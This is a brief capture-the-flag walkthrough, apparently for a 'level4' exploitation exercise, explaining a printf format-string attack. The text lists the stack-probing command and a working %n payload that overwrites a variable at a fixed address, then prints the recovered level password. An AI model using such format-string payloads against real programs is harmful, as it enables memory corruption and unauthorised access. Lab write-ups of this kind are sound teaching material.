


# Walkthrough

> **The Goal:** manipulate `printf()` function to changing the value of the variable `m` at the address 0x8049810 
It'is as the level3 
## 1 Get address of variable `m` 

## 2. Fnd the position of a buffer on the stack using the printf vulnerability
`python -c 'print "aaaa" + " %x" * 13'`  
Buffer content `aaaaaa` is at the 12th position `61616161`. 

## 3. Modify `m` value s 
The modifier %n will write the number of bytes specified in the choosen address. 
`python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4` 
It print the password : `0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a`
